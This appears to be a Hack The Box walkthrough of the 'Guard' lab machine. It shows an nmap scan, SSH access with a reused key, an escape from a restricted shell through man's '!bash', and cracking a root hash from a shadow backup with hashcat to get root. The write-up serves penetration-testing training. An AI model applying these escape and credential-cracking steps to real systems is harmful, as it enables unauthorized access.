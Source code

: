 Hack The Box :: Starting Point :: Guard :: Linux

# Enumeration

We begin by running an Nmap scan.

nmap -A -v 10.10.10.50

The scan reveals that only port 22 is open. Let's try to use the SSH key found in the previous machine to login as daniel (the previous user).

ssh -i id_rsa daniel@10.10.10.50

# Foothold

The SSH login gives us access to a restricted shell, where the commands like find, cat and python are disabled. We cannot read **user.txt** and are unable to enumerate the system properly. This means we will have to to escape the restricted shell. Fortunately, the **man** command can be used to spawn a bash shell.

man man

Once the command opens the manual, we can enter the following command to spawn a bash shell.

!bash
The user flag is located in /home/daniel.

# Privilege Escalation

On enumerating the system, we find a readable shadow backup in /var/backups. Let's try to crack the root hash with hashcat.

$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31

Copy the root hash into a text file and use the following command to crack it.

hashcat -m 1800 --force hash.txt rockyou.txt
After it succeeds, use the following command to show the cracked password.

hashcat -m 1800 --force hash.txt rockyou.txt --show

This reveals the root password to be password#1, which can be used to su to root.

su root
Password: password#1
However, we get a system error. Instead, we can SSH into the machine as root.

ssh root@10.10.10.50
Password: password#1
The root flag is located in /root.
